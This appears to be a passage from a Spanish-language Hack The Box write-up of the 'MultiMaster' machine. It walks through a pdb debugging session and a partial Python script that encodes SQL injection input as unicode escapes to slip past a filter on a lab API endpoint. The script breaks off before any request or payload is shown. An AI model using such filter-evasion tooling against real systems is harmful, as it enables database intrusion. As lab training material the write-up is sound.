 Agrego un Breakpoint para asegurarme de que lo que le estoy pasando no contiene saltos de línea o está en formato bytes

```null
python3 sqli_tampers.py
-> test
> /home/rubbx/Desktop/HTB/Machines/MultiMaster/sqli_tampers.py(14)<module>()
-> while True: # Mediante un bucle infinito, solicito el input que quiero transformar
(Pdb) l
  9      signal.signal(signal.SIGINT, def_handler)
 10      
 11      
 12      if __name__ == '__main__':
 13      
 14  ->        while True: # Mediante un bucle infinito, solicito el input que quiero transformar
 15      
 16              sqli = input("-> ")
 17      
 18              # Breakpoint
 19              pdb.set_trace()
(Pdb) p sqli
'test\n'
(Pdb)  
```

Como tiene un salto de línea, se lo borro con strip

```null
(Pdb) p sqli.strip()
'test'
```

Añado una función que se encargue de hacer la petición y otra que convierta el input al formato deseado

Finalmente, quedaría de la siguiente forma

```null
from pwn import *
import sys, requests, pdb, signal, time, json

def def_handler(sig, frame):
    sys.exit(1)

# Variables globales
main_url = "http://10.10.10.179/api/getColleagues"

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)
burp = {'http': 'http://127.0.0.1:8080'}

def formatunicode(sqli):

    sqli_formated = ""

    for character in sqli: # Itero por cada caracter de la variable sqli
        
        sqli_formated += "\\u00" + hex(ord(character))[2::]

    return sqli_formated

def makeRequest(sqli_formated):

    headers = {
        'Content-Type': 'application/json;charset=utf-8'
    }

```